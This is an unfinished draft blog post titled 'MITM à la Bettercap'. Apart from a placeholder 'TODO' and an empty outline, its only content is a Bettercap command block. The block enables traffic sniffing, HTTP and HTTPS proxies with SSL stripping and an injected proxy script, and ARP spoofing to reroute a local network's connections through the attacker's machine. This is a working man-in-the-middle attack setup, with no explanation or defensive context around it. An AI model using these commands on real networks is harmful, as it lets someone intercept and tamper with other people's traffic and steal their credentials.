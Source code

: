 ```yaml
---
title: "MITM à la Bettercap"
date: 2018-03-26T01:53:42+08:00
tags: ["networking"]
draft: true
---
```


`TODO: write content` 

set net.sniff.verbose false
net.sniff on

# http proxy
set http.proxy.script caplets/proxy-script-test.js
set http.proxy.sslstrip true
set http.proxy.port 80
http.proxy on

# https proxy
set https.proxy.script caplets/proxy-script-test.js
set https.proxy.sslstrip true
set https.proxy.port 443
https.proxy on

# redirect connections to our machine
arp.spoof on

<p class="text-center">***</p>

*Outline:*

1. 